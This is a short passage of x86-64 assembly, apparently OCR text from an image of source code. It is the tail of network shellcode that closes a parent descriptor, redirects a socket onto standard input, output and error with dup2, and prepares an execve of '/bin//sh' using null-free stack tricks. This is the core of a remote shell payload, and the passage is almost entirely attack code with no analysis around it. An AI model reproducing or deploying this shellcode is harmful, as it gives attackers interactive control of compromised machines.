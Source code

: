 ```term

        ; close parent

        mov al, 3
        syscall

        ; duplicate sockets

        ; dup2 (new, old)
        mov rdi, r9
        mov al, 33

        xor rsi, rsi

        syscall

        mov al, 33

        push word 1
        pop bp

        mov rsi, rbp
        syscall

        mov al, 33

        push word 2
        pop bp

        mov rsi, rbp

        syscall

        ; execve

        ; First NULL push

        xor rax, rax
        push rax

        ; push /bin//sh in reverse

        mov rbx, 0x68732f2f6e69622f
        push rbx

        ; store /bin//sh address in RDI

        mov rdi, rsp

        ; Second NULL push
        push rax

        ; set RDX
        mov rdx, rsp


        ; Push address of /bin//sh
        push rdi

        ; set RSI

        mov rsi, rsp

```